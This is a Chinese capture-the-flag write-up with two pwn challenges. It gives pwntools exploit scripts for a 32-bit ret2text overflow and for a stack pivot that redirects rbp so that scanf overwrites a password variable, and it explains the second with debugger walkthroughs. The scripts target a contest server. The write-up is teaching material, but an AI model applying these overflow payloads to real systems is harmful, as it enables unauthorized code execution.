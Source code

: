 # PolarD&N冬季个人赛wp

> 题目可以在[这里](https://www.polarctf.com/#/page/challenges)找，就不上附件了（版权）

## like_lib3

32位***ret2text***

```python
from pwn import *
#p = process('./pwn')
p = remote('1.95.36.136',2055)
elf = ELF('./pwn')
sys = elf.sym['system']
payload = b'b'*(0x2c+4)+p32(sys)+p32(0)+p32(0x0804857c)
p.sendline(payload)
p.interactive()
```

## stack

***栈迁移***，但不多

通过栈迁移覆盖`rbp`的值，让`rbp`的位置变成`passwd`，从而实现任意地址读写

需要注意`scanf`函数读取的偏移是`4`

<img src="./images/image-20250203140921533.png" alt="image-20250203140921533" style="zoom:67%;" />

所以可以将`passwd`迁移到`rbp+0x4`的位置，这样通过`scanf`读入寻址，刚好读到`rbp`上

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('1.95.36.136',2138)
def dbg():
    gdb.attach(p)
    pause()

passwd_addr = 0x4033CC
payload = b'b'*0x50+p64(passwd_addr+0x4)
p.sendline(payload)

p.sendlineafter("input1:","4660")
p.interactive()
```

有些不理解？我们调试看看

- 未输入payload时

![image-20250203142323438](./images/image-20250203142323438.png)

> 可以看到此时的rbp还是存储的栈结尾地址，`0x7ffedda9ade0`

- 输入`payload`

![image-20250203142504855](./images/image-20250203142504855.png)

> 可以看到此时`rbp`已经被额外的数据覆盖了，这里`0x4033d0`也就是`passwd_addr+0x4`

- `scanf`之后

  ![image-20250203143114522](./images/image-20250203143114522.png)

  

> 这里是将`rax`的值赋给`rbp-4`,而rax暂时存储我们的输入，也就是说，这里将4660传递给了`rbp-4`的位置，那么我们的`rbp`是多少呢，`passwd_addr+0x4`!，所以4660传递给了`passwd`,完成

- 那v4呢？接着看

  ![image-20250203143717093](./images/image-20250203143717093.png)

![image-20250203143733532](./images/image-20250203143733532.png)s

> 可以看一下静态汇编，这里第一个判断是将`passwd`的值传给`eax`,然后比较；第二个判断是`rbp-4`的位置传递给`eax`，然后比较。
>
> 同时动态调试这里也展示的很清楚，pwndbg直接给解释为两次对`passwd`和`0x1234`比较
>
> 所以v4，其实已经被抛弃了（瓦达西...)

总之呢，这里可以实现的关键在于**局部变量的寻值是按照rbp的相对偏移**，所以将rbp移动后会改变寻值的对象
